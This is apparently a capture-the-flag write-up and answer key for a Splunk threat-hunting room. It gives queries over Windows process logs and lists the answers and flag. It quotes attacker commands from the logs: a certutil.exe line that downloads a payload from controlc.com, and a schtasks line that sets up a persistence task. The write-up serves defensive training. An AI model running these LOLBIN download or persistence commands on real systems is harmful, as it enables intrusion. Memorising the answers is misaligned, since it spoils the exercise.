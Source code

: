 # Benign

One of the client’s IDS indicated a potentially suspicious process execution indicating one of the hosts from the 
HR department was compromised. Some tools related to network information gathering/scheduled tasks were executed 
which confirmed the suspicion. Due to limited resources, we could only pull the process execution logs with 
Event ID: `4688` and ingested them into Splunk with the index `win_eventlogs` for further investigation.

All the required logs are ingested in the index `win_eventlogs`.

The network is divided into three logical segments. 

IT Department:

* James
* Moin
* Katrina

HR department:

* Haroon
* Chris
* Diana

Marketing department:

* Bell
* Amelia
* Deepak

## Questions

**How many logs are ingested from the month of March?**

Answer: `13959`

**Imposter Alert: There seems to be an imposter account observed in the logs, what is the name of that user?**

    index=win_eventlogs 
    | dedup UserName 
    | table UserName

Answer: `Amel1a`

**Which user from the HR department was observed to be running scheduled tasks?**

    index=win_eventlogs schtasks CommandLine="/create /tn OfficUpdater /tr \"C:\\Users\\Chris.fort\\AppData\\Local\\Temp\\update.exe\" /sc onstart"

Answer: `Chris.fort`

**Which user from the HR department executed a system process (LOLBIN) to download a payload from a file-sharing host.**

| ![user](../../_static/images/splunkbenign1.png) |
|:--:|
| `haroon` |

    certutil.exe -urlcache -f - https://controlc.com/548ab556 benign.exe

**To bypass the security controls, which system process (lolbin) was used to download a payload from the internet?**

`benign.exe` was downloaded after a connection was established to `https://controlc.com/548ab556`. The `-f` and `-urlcache` forces a fetch of the url.

Answer: `certutil.exe`

**What was the date that this binary was executed by the infected host? format (YYYY-MM-DD)**

    index=win_eventlogs UserName="Daina" OR UserName="Chris.fort" OR UserName="Haroon" CommandLine=" certutil.exe -urlcache -f - https://controlc.com/548ab556 benign.exe" | dedup ProcessName

Answer: `2022-03-04`

**Which third-party site was accessed to download the malicious payload?**

Answer: `controlc.com`

**What is the name of the file that was saved on the host machine from the C2 server during the post-exploitation phase?**

Answer: `benign.exe`

**The suspicious file downloaded from the C2 server contained malicious content with the pattern THM{..........}; what is that pattern?**

| ![user](../../_static/images/splunkbenign2.png) |
|:-----------------------------------------------:|
|                 `THM{KJ&*H^B0}`                 |

**What is the URL that the infected host connected to?**

Answer: `https://controlc.com/548ab556`
